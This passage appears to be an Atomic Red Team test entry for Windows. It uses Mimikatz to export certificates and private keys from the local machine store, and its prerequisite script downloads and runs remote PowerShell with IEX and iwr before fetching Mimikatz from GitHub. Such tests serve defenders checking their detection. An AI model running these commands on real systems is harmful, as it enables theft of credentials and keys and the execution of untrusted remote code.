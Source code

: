 **Supported Platforms:** Windows


**auto_generated_guid:** 290df60e-4b5d-4a5e-b0c7-dc5348ea0c86





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{mimikatz_exe}" "crypto::certificates /systemstore:local_machine /store:my /export"  exit
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
